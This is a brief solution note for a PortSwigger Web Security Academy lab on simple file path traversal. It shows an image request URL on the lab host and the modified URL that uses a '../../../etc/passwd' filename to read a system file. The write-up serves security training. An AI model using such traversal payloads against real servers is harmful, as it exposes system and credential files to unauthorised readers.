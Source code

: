 # Lab: File path traversal, simple case
# https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/path-traversal-apprentice/file-path-traversal/lab-simple#

```bash
# View details and right click on image.
# Open image in new tab.

https://0a4500cf033958708516df8300a00082.web-security-academy.net/image?filename=48.jpg

# Change url to: https://0a4500cf033958708516df8300a00082.web-security-academy.net/image?filename=../../../etc/passwd

```
